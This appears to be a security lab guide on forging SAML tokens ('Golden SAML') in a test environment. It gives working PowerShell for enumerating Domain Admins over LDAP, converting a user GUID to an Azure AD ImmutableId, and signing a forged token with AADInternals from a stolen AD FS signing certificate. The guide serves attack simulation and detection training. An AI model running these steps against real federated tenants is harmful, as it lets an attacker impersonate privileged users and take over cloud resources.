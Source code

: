 # Forge SAML Tokens with Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to [export the AD FS token signing certificate](exportADFSTokenSigningCertificate.md) from an AD FS server, it is just a matter of time until it is used to sign new SAML tokens and impersonate users in a federated environment. 

## Sumulate & Detect
1.	[Enumerate privileged accounts](#enumerate-privileged-accounts).
2.	[Forge SAML token](#forge-saml-token).

## Enumerate Privileged Accounts

Let's start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named `pgustavo` was also the account that was assigned the Azure AD built-in  Global Administrator   role. Therefore, we can start by enumerating the members of the `Domain Admins` group.

### Enumerate Members of the Domain Admins Group via Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: AD FS Server (ADFS01)
    * Authorization: AD FS service account or domain user
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

1.  Connect to the AD FS server (ADFS01) via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_01_get_domain_admins.png)

## Forge SAML Token

A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.

**Preconditions**
* Endpoint: AD FS Server (ADFS01)
  * Even when this step would happen outside of the organization, we can use the same PowerShell session we used in the previous section.
  * Authorization: Local Administrator
  * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
  * AD FS token signing certificate:
    * In a previous step, we [exported the AD FS token signing certificate as a PFX file](exportADFSTokenSigningCertAsPfxFile.md) to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx` (default).

### Convert User AD Object GUID to its Azure AD Immutable ID representation

1.  Once we identify the privileged user we want to impersonate, we need to obtain the `immutable ID` of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$Results[1].Samaccountname
$Results[1].ObjectGuid
$ObjectGUID = $Results[1].ObjectGuid
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
$ImmutableId
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_02_get_immutable_id.png)

### Install AADInternals

2.  Start a new PowerShell session as administrator and run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force
```

3. Go back to the PowerShell session where you calculated the `ImmutableId` and import AADInternals

```PowerSHell
Import-Module AADInternals
```

### Sign a New SAML Token

4. Use the `New-AADIntSAMLToken` function to sign a new SAML token with the following information:
  * The `ImmutableID` we got in the first section.
  * The path to the token signing certificate file.
  * The AD FS token issuer url.

```PowerShell 
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
$SamlToken
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_04_sign_saml_token.png)

## Output

Use the variable `$SamlToken` in the next step to [get an OAuth access token via the SAML bearer assertion flow](../persistence/getOAuthTokenWithSAMLAssertion.md) for OAuth protected resources such as the Microsoft Graph API.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
